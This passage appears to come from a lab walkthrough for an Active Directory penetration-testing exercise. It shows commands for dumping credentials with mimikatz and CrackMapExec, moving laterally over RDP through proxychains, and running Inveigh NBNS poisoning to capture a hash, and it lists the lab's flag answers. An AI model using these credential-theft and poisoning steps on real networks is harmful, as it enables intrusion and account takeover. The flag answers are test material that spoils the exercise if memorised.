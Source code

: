 #### **Step 3: Credential Extraction**
```bash
# Upload mimikatz via meterpreter:
upload mimikatz64.exe

# Extract credentials:
mimikatz64.exe
privilege::debug
sekurlsa::logonpasswords

# Result: mssqlsvc:Sup3rS3cur3maY5ql$3rverE
```

#### **Step 4: Alternative with CrackMapExec (SUPERIOR!)**
```bash
# 🔥 Much simpler with proxychains + CME:
proxychains crackmapexec smb 172.16.7.60 -u administrator -p Welcome1 --local-auth --lsa

# Reveals cleartext: mssqlsvc:Sup3rS3cur3maY5ql$3rverE
```

#### **Step 5: Access MS01**
```bash
# RDP to MS01 as mssqlsvc:
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /p:'Sup3rS3cur3maY5ql$3rverE'

# Read flag from C:\Users\Administrator\Desktop\flag.txt
```

**🎯 Answer**: `eexc3ss1ve_adm1n_r1ights!`

---

## 🕸️ **Question 9: Advanced Poisoning**

### **🎯 Task**: "Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?"

### **📋 Solution Steps:**

#### **Step 1: Setup Inveigh Poisoning**
```bash
# Download Inveigh:
wget -q https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1
scp Inveigh.ps1 htb-student@JUMP_BOX_IP:/home/htb-student/Desktop
```

#### **Step 2: Execute Poisoning Campaign**
```powershell
# In RDP session on MS01:
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

# Captured hash:
# CT059::INLANEFREIGHT:F8059BA109C97E0D:78A41190201430E8654DE55727DF7EB5:...
```
